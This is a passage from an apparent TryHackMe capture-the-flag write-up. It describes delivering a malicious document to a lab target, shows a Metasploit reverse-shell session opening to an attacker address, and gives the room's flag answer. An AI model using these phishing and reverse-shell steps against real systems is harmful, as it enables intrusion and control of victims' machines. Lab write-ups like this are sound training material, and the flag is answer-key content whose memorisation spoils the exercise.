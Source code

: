 5. **Uploading the File**:
    - Use `CTRL+H` in the file upload dialog to access the `.msf4` directory where the malicious document is saved.

By completing these steps, the malicious document will be successfully delivered to the target.

If all the steps are followed correctly and everything works as expected, we will get a reverse shell in a couple of minutes:

```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.130.204:8888 
[*] Sending stage (176198 bytes) to 10.10.103.92
[*] Meterpreter session 1 opened (10.10.130.204:8888 -> 10.10.103.92:52536) at 2024-11-24 16:37:47 +0300
meterpreter > cd c:/users/Administrator/Desktop
meterpreter > ls
[...]
meterpreter > 
```

---

## Questions

1. What is the flag value inside the `flag.txt` file that’s located on the Administrator’s desktop?
    
    
    ![image.png](images/image%204.png)
    
    Ans.: **THM{PHISHING_CHRISTMAS}**